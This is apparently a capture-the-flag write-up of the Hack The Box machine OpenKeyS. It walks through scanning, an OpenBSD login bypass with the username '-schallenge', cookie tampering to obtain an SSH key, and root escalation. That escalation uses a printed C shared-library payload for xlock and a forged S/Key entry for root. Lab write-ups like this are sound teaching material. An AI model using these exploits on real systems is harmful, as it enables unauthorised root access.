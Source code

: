 ```yaml
---
"title": "Hack The Box - OpenKeyS"
"date": 2020-12-12
"tags": ["OpenBSD", "medium"]
"keywords": ["OpenBSD", "medium"]
"categories": ["HackTheBox"]
"author": "Ghostbyt3"
"description": "Link: [https://www.hackthebox.eu/home/machines/profile/267](https://www.hackthebox.eu/home/machines/profile/267)"
"featured_image": "/img/htb-openkeys/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox - Writeup"
---
```



![Untitled](/img/htb-openkeys/Untitled.png)

Link: [https://www.hackthebox.eu/home/machines/profile/267](https://www.hackthebox.eu/home/machines/profile/267)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|firewall
Running (JUST GUESSING): OpenBSD 4.X|6.X|5.X|3.X (95%), FreeBSD 10.X|7.X (91%), Cisco AsyncOS 7.X (87%)
OS CPE: cpe:/o:openbsd:openbsd:4.4 cpe:/o:openbsd:openbsd:6 cpe:/o:openbsd:openbsd:5 cpe:/o:openbsd:openbsd:3 cpe:/o:freebsd:freebsd:10.0 cpe:/o:freebsd:freebsd:7.0 cpe:/h:cisco:ironport_c650 cpe:/o:cisco:asyncos:7.0.1
Aggressive OS guesses: OpenBSD 4.4 - 4.5 (95%), OpenBSD 6.0 - 6.1 (95%), OpenBSD 5.0 - 5.8 (95%), OpenBSD 4.1 (93%), OpenBSD 5.0 (93%), OpenBSD 4.2 (93%), OpenBSD 4.0 (93%), OpenBSD 3.8 - 4.7 (92%), OpenBSD 4.6 (92%), OpenBSD 4.7 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP Enumeration

Looking at the webpage it contains only a login page and nothing else, I tired like default credentials and SQLi. Nothing worked so let's run Gobuster.

![Untitled](/img/htb-openkeys/Untitled%201.png)

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.199
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/07/26 09:36:25 Starting gobuster
===============================================================
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/vendor (Status: 301)
===============================================================
2020/07/26 09:41:19 Finished
===============================================================
```

Checking all those dirs. and This one is really interesting.

![Untitled](/img/htb-openkeys/Untitled%202.png)

**SWP stands for SWaP file are located on a computer's hard drive, used by the virtual memory component of the computer to increase available memory.**

And we got something here. A username which is `Jennifer` and also a dir `../auth_helpers/check_auth` its going one directory which is probably before includes folder.

![Untitled](/img/htb-openkeys/Untitled%203.png)

And It downloading something

![Untitled](/img/htb-openkeys/Untitled%204.png)

Its a library file and  it says its OpenBSD

```bash
┌──(root🐺kali)-[~/htb/boxes/openkeys]
└─# file check_auth                        
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
```

With all those finding we got I just googled about openBSD libc and found this.

> [https://blog.firosolutions.com/exploits/cve-2019-19521-openbsd-libc-2019/](https://blog.firosolutions.com/exploits/cve-2019-19521-openbsd-libc-2019/)

It seems we can use `-schallenge` as username for authentication bypass so the only thing that come to my mind is the login page we found at first.

![Untitled](/img/htb-openkeys/Untitled%205.png)

So the username is `-schallenge` and password can be anything.

![Untitled](/img/htb-openkeys/Untitled%206.png)

And Im logged in as user `-schallenge` but its tell me there is no OpenSSH Key for this user, so we need to login as someother user:

![Untitled](/img/htb-openkeys/Untitled%207.png)

## Getting User Shell

I just captured the login request and tried some nothing worked.

![Untitled](/img/htb-openkeys/Untitled%208.png)

Then I decided to play with cookie, added a new one with Name as username and value as `jennifer` because thats the only username we got so far and so we can try for the ssh key.

![Untitled](/img/htb-openkeys/Untitled%209.png)

And After reload it logouts and I logged with the samecreds and I got the key.

![Untitled](/img/htb-openkeys/Untitled%2010.png)

I tried login with the key we got and it shows me Invalid Format. 

![Untitled](/img/htb-openkeys/Untitled%2011.png)

After some googling with that error. I came to know there is some possibility that it can be Putty Key

> [https://ma.ttias.be/convert-putty-private-key-to-openssh/](https://ma.ttias.be/convert-putty-private-key-to-openssh/)

I just converted it into normal format.

```bash
root@kali:~/CTF/HTB/Boxes/OpenKeyS# puttygen id_rsa -O private-openssh -o putty
```

And it worked 

![Untitled](/img/htb-openkeys/Untitled%2012.png)

## Privilege Escalation

While searching for the openBSD exploits in the beginning, I also found this.

> [https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html](https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html)

To Privilege Escalate to Root, First the user must be in `auth` group, in our case `jennifer` is not in `auth` group.

```bash
openkeys$ id
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
```

To add the user to `auth` group, the `xlock` vulnerability will allow to add user `jennifer` to the auth group.

![Untitled](/img/htb-openkeys/Untitled%2013.png)

Copied the C payload:

```c
#include [paths.h](paths.h)
#include [sys/types.h](sys/types.h)
#include [unistd.h](unistd.h)

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
```

Saved it as `swrast_dri.c` , then compile it and run it. 

```bash
openkeys$ vi swrast_dri.c                                               
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c            
openkeys$ ls                                                 
swrast_dri.c   swrast_dri.so
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[2] 44334
openkeys$ _XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root

openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
openkeys$ id
uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)
```

Now User Jennifer is in `auth` group.

If any user who is in `auth` group, we can follow this method to Privilege Escalate to Root:

![Untitled](/img/htb-openkeys/Untitled%2014.png)

Followed the same steps given in the POC, it will ask for password use the same in POC:

```bash
openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root
openkeys$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password:
openkeys# id                                                                                                                            
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# whoami
root
```

We own the box!